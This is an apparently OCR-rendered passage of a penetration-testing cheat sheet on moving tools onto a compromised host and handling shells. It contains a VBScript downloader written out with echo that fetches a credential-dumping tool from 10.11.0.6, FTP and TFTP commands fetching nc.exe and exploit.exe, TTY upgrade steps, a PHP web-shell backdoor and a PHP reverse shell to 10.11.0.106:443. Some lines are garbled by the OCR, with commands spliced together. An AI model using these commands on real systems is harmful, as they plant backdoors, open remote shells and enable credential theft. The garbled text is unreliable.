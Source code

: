 > echo Set http = CreateObject\("WinHttp.WinHttpRequest.5.1"\) &gt;&gt; wget.vbs  
> echo If http Is Nothing Then Set http = CreateObject\("WinHttp.WinHttpRequest"\) &gt;&gt; wget.vbs  
> echcscript wget.vbs [http://10.11.0.6/wce32\_upx.exe](http://10.11.0.6/wce32_upx.exe) wce32\_upex.exe If http Is Nothing Then Set http = CreateObject\("MSXML2.ServerXMLHTTP"\) &gt;&gt; wget.vbs  
> echo If http Is Nothing Then Set http = CreateObject\("Microsoft.XMLHTTP"\) &gt;&gt; wget.vbs  
> echo http.Open "GET", strURL, False &gt;&gt; wget.vbs  
> echo http.Send &gt;&gt; wget.vbs  
> echo varByteArray = http.ResponseBody &gt;&gt; wget.vbs  
> echo Set http = Nothing &gt;&gt; wget.vbs  
> echo Set fs = CreateObject\("Scripting.FileSystemObject"\) &gt;&gt; wget.vbs  
> echo Set ts = fs.CreateTextFile\(StrFile, True\) &gt;&gt; wget.vbs  
> echo strData = "" &gt;&gt; wget.vbs  
> echo strBuffer = "" &gt;&gt; wget.vbs  
> echo For lngCounter = 0 to UBound\(varByteArray\) &gt;&gt; wget.vbs  
> echo ts.Write Chr\(255 And Ascb\(Midb\(varByteArray,lngCounter + 1, 1\)\)\) &gt;&gt; wget.vbs  
> echo Next &gt;&gt; wget.vbs  
> echo ts.Close &gt;&gt; wget.vbs  
> → cscript wget.vbs [http://10.11.0.6/wce32\_upx.exe](http://10.11.0.6/wce32_upx.exe) wce32\_upx.exe  
> ▪ FTP Non interactive mode  
> → ftp -A 10.11.0.106  
> → binary  
> → GET nc.exe  
> → bye  
> ▪ TFTP  
> → tftp -i 10.11.0.106 GET exploit.exe

## SHELLS

Spawning a TTY Shell - Break out of Jail or limited shell You should almost always upgrade your shell after taking control of an apache or www user \(For example when you encounter an error message when trying to run an exploit sh: no job control in this shell \)

Interactive shell:

> $python -c 'import pty; pty.spawn\("/bin/bash"\)' $ echo os.system\('/bin/bash'\)

Adjust Interactive shell:

> $ Ctrl-Z  
> $ echo &gt; $TERM //find term $ stty raw -echo //disable shell echo  
> $ fg  
> $ reset  
> $ export SHELL=bash  
> $ export TERM=xterm

Php backdoor:

> $ &lt;?php echo shell\_exec\( &gt; $\_GET\['cmd'\]\);?&gt;

Php shell:

> $ &lt;?php echo shell\_exec\('bash -i &gt;& /dev/tcp/10.11.0.106/443 0&gt;&1'\);?&gt;  
> $
